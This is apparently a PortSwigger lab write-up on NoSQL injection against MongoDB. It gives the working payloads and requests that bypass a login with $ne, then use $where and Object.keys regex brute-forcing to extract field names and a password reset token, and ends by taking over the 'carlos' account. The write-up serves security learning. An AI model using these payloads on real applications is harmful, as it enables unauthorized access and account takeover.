 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/dc5af3c6-623e-490f-b857-cf1b1c2f9eaa)

## Overview :

#### Identifying field names

Because MongoDB handles semi-structured data that doesn't require a fixed schema, you may need to identify valid fields in the collection before you can extract data using JavaScript injection. 

For example, to identify whether the MongoDB database contains a **password** field, you could submit the following payload:
```
https://insecure-website.com/user/lookup?username=admin'+%26%26+this.password!%3d'
```

Send the payload again for an existing field and for a field that doesn't exist. In this example, you know that the **username field exists**, so you could send the following payloads:
```
admin' && this.username!='
```

```
admin' && this.foo!='
```

> **If the password field exists, you'd expect the response to be identical to the response for the existing field (username)**, but different to the response for the field that doesn't exist (foo). 

#### Exploiting NoSQL operator injection to extract data ?

_Even if the original query doesn't use any operators that enable you to run arbitrary JavaScript, you may be able to inject one of these operators yourself_. You can then use boolean conditions to determine whether the application executes any JavaScript that you inject via `this` operator.

#### Extracting field names

If you have injected an operator that enables you to run JavaScript, you may be able to use the `keys()` method to extract the name of data fields. For example, you could submit the following payload:
```nosql
"$where":"Object.keys(this)[0].match('^.{0}a.*')"
```

> This inspects the first data field in the user object and returns the first character of the field name. This enables you to extract the field name character by character. 

## Solution :

Try to login with carlos & some random password. The following is hte request being sent.

```http
POST /login HTTP/1.1
Host: 0aed0048046cb4b984524c2d00d400a3.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aed0048046cb4b984524c2d00d400a3.web-security-academy.net/login
Content-Type: application/json
Content-Length: 39
Origin: https://0aed0048046cb4b984524c2d00d400a3.web-security-academy.net
Connection: close
Cookie: session=Io6bfEgzmpTHn5IecCSuPDjHLIcB4DhP
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{
"username":"carlos",
"password":"asfd"
}
```

Modify the request by adding `{"$ne" : "invalid"}` in the password field & see if we can bypass the login of carlos.
```json
{
"username":"carlos",
"password":{"$ne" :"invalid"}
}
```
But we get a response saying that **Account is locked.Please reset the password**.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b5bcbf79-75cf-4d87-b263-a43a2dabc518)

#### Injecting $where operator in JSON body -

- Injecting `"$where" : "1"`

**Request -**
```json
{
"username":"carlos",
"password":{"$ne" :"invalid"},
"$where": "1"
}
```
**Response -**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/80d73400-e5a0-4a74-9560-3c40deefdfa7)

Here we get **Account locked** in response.

- Injecting `"$where" : "0"`

**Request -**
```json
{
"username":"carlos",
"password":{"$ne" :"invalid"},
"$where": "0"
}
```

**Response -**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5d5eeff0-4a3e-4c7f-83d1-313c73458187)

Here we get a different response - **Invalid username/password.**

### Extracting available field names -

Send the above request to repeater.

- Replace the `$where` parameter with this `"$where":"Object.keys(this)[0].match('^.{}.*')"` .
- Add 2 payload positions to bruteforce - `"$where":"Object.keys(this)[0].match('^.{§§}§§.*')"`

> 1. `"$where"`: This is a key in a JSON object, and it seems to be used to define a condition or filter.
>
> 2. "`Object.keys(this)[0]"`: This part of the expression is JavaScript code, not a regular expression. It's using the **Object.keys(this)** function to get an array of keys of the current object (this), and then [0] is used to access the first key in that array. So, it's essentially accessing the first key in the current object.


Set Attack Type - Cluster Bomb
Payload 1 - Numbers from 0-20
Payload 2 - Simple list - `a-z`, `A-Z`, `0-9`

Once the attack is over, sort **Payload1** & **Length** to find the **1st key field which is `id`**.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/792074ba-5a58-430f-9b76-23c17a75077c)

- Repeat the attack by changing hte position from 1 to 2 in the array - `"$where":"Object.keys(this)[1].match('^.{§§}§§.*')"`

This time we got the **value of 2nd key - `username`**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/ce4971c0-1c82-4845-8570-bccdee692244)


- Repeat the process for **3nd key field**, we got the value of 3rd field as - `password`
 
![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d77c3146-c380-420f-8859-b1eb1a8af2fa)

- Repeat the process for 4th key field, we got the value of 4th field as - `newpwdTkn`

> **Before bruteforcing the 4th field (which most probably is the password reset field), make sure to send a password reset link for carlos before performing the bruteforce for 4th field.** Else you will get `500 Internal server error` when you bruteforce.


![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/771944fd-0403-4292-a300-31db6bcc444f)

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d7a0c075-edda-4fa0-b059-fe27baedb2df)

### Bruteforcing the password reset token -

So where can we use the following fields which we identified? Possibly the **forgot-password** request.

Send the *GET /forgot-password* request to repeater. Add the parameter **?newpwdTkn=<invalid-token>**.In the response, we get **Invalid token** as expected.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d2bab9d7-ae07-4342-b4e6-80ec4783cfee)

Now we need to bruteforce and find the _newPwdTkn_ value

Now update the *where* operator in the intruder tab as follows ,
```json
"$where":"this.newpwdTkn.match('^.{§§}§§.*')"
```
Start the attack.

Now we got the value of the token  - `**d977a5180c87a6a8**`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/47508caf-a1ae-48ea-a473-af1e597a76f2)

### Reset carlos's password using the token -

Use the url to reset carlos's password - https://0af8009a03483ec483bd199400c3006c.web-security-academy.net/forgot-password?newPwdTkn=d977a5180c87a6a8

In this case , I modified it to `test`.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/678a90e4-4f55-4b1f-9ff8-ae20a0fff848)

Now login as carlos to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/85fa4b69-a982-438b-bf5e-ab693739e3ca)


